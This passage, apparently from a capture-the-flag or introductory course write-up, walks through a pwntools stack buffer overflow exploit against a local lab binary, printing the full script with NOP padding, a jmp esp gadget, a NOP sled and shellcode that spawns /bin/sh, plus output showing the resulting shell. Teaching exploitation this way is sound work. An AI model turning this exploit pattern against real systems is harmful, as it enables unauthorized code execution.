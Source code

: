 We'll then start building the code for it:

```python
from pwn import *

binary = "./overflow"
elf = context.binary = ELF(binary, checksec=False)

p = process()
buffer = 312

jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

buf =  b""
buf += b"\xbf\x2a\x69\x3e\x38\xd9\xcd\xd9\x74\x24\xf4\x58"
[...snip...]
buf += b"\xb2\x83\x19\xe6\x9b\x30\x50\x07\xee\x37"

# payload
payload = flat(
    asm('nop') * buffer, # padding to 312 offset (before EIP)
    jmp_esp, # address to jmp_esp call
    asm('nop') * 100, # nop sled
    buf # shellcode
)

write("payload", payload)

p.sendlineafter(b':', payload)
p.interactive()
```

There's a bit going on in this code - so to highlight:

* We're loading the binary via the `binary` variable and ensuring that the script knows we are dealing with an ELF binary `context.binary`.
* We pass in a buffer of `312` bytes as our offset indicated.
* We are searching for a `jmp esp` call in the program and retrieving the address for it
* `buf` includes our shellcode, which will execute `/bin/sh` to grant us a shell
* `payload` includes 4 properties, which are:
	* Our padding in the form of NOPs, up to 312 (`asm('nop')` is primarily just the assembly instruction for a NOP, which is `\x90`)
	* The `jmp esp` call that we retrieved earlier in the script
	* Another sequence of NOPs for our NOP sled
	* Our shellcode, `buf`
* We then write our payload to a variable, and then send it to the program input via `sendlineafter()`.
	* Note that we are not sending any data into the program until after we encounter a line containing `:`, which is our interactive input.
* If shellcode execution was successful, we should receive a shell via `p.interactive()`.

```
└─$ python3 exp.py
[+] Starting local process '/-/ccso_intro_2025/overflow/overflow': pid 503290
[*] Switching to interactive mode

$ whoami
daz
```

